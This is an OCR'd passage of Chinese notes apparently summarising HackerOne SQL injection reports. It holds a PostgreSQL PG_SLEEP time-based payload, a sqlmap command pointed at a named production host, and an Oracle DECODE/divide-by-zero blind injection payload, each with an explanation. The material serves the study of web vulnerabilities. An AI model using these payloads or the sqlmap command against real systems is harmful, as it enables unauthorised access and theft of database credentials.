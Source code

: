      ```
     invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(5))--
     ```

   - **执行效果**：

     - 数据库执行 `PG_SLEEP(5)`，导致服务器响应延迟 **5 秒**。
     - 同理，注入 `PG_SLEEP(10)` 和 `PG_SLEEP(20)` 时，响应分别延迟 **10 秒** 和 **20 秒**。

   - **技术原理**：

     - `');`：闭合原查询的括号和引号，终止合法语句。
     - `(SELECT ... FROM PG_SLEEP(N))`：注入自定义 SQL，强制数据库休眠 `N` 秒。
     - `--`：注释符，忽略后续字符，避免语法错误。

3. **自动化攻击可能性**

   - 使用工具如 `sqlmap` 可自动化利用此漏洞：

     ```
     sqlmap -u "https://prod.oidc-proxy.prod.webservices.mozgcp.net/interaction/..." --data="invite_code=xxx*" --dbms=postgresql --level=5
     ```

   - **潜在风险**：

     - 提取数据库版本、表名、字段内容（如用户凭证）。
     - 执行系统命令（需数据库权限配置不当）。

### 3. POST|order by参数|布尔盲注|Oracle

[U.S. Dept Of Defense | Report #2081316 - Blind Sql Injection in https://█████/qsSearch.aspx | HackerOne](https://hackerone.com/reports/2081316)

1. **基础验证**

   - **原始请求**：

     ```
     POST /qsSearch.aspx HTTP/1.1
     Host: ████████
     ...
     HiddenFieldSortOrder=seqno  -- 原始参数
     ```

   - **正常响应**：页面返回预期数据。

2. **基于错误的条件盲注**

   - **Payload 1 - 探测用户名长度**：

     ```
     HiddenFieldSortOrder=seqno-DECODE(length(user),5,1,1/0)
     ```

     - **攻击逻辑**：
       - 若 `user` 字段长度为 5，执行 `1`（正常返回）。
       - 否则，触发 `1/0`（除零错误，页面异常）。
     - **观察结果**：
       - 当输入长度为5时，页面返回正常数据（确认用户名为5字符）。
